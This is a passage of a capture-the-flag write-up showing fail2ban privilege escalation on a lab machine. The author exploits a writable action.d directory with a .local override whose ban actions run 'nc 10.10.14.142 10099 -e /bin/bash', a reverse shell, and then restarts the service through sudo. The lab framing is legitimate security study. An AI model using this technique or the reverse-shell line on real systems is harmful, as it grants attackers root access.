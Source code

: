 Enumerated fail2ban configurations:

```
michael@trick:~$ find /etc/fail2ban/ -writable
/etc/fail2ban/action.d

michael@trick:/etc/fail2ban$ ls -al
total 76
drwxr-xr-x   6 root root      4096 Jul  4 23:15 .
drwxr-xr-x 126 root root     12288 Jul  4 22:26 ..
drwxrwx---   2 root security  4096 Jul  4 23:15 action.d
-rw-r--r--   1 root root      2334 Jul  4 23:15 fail2ban.conf
drwxr-xr-x   2 root root      4096 Jul  4 23:15 fail2ban.d
drwxr-xr-x   3 root root      4096 Jul  4 23:15 filter.d
-rw-r--r--   1 root root     22908 Jul  4 23:15 jail.conf
drwxr-xr-x   2 root root      4096 Jul  4 23:15 jail.d
-rw-r--r--   1 root root       645 Jul  4 23:15 paths-arch.conf
-rw-r--r--   1 root root      2827 Jul  4 23:15 paths-common.conf
-rw-r--r--   1 root root       573 Jul  4 23:15 paths-debian.conf
-rw-r--r--   1 root root       738 Jul  4 23:15 paths-opensuse.conf
```

## Remote Code Execution through fail2ban action files

From the official documentation of fail2ban: [MANUAL 0 8](https://www.fail2ban.org/wiki/index.php/MANUAL_0_8)

> **Every .conf file can be overridden with a file named .local.** The .conf file is read first, then .local, with later settings overriding earlier ones. Thus, a .local file doesn't have to include everything in the corresponding .conf file, only those settings that you wish to override.> 

Since we have write access to the action.d/ directory, we can inject a malicious .local file containing our custom code that will be execute with high privileges.

Similar PoC: [Privilege Escalation via fail2ban](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/)

Overwrote the iptables-multiport.conf file with a custom .local one and restarted the server to activate new rules:

```
michael@trick:/etc/fail2ban$ cp /etc/fail2ban/action.d/iptables-multiport.conf /dev/shm/iptables-multiport.local
michael@trick:/etc/fail2ban$ /dev/shm/iptables-multiport.local
...
actionban = nc 10.10.14.142 10099 -e /bin/bash
actionunban = nc 10.10.14.142 10099 -e /bin/bash

[Init]
name = default
port = ssh
protocol = tcp
chain = INPUT

michael@trick:/etc/fail2ban$ cp /dev/shm/iptables-multiport.local action.d/iptables-multiport.local
michael@trick:/etc/fail2ban$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```
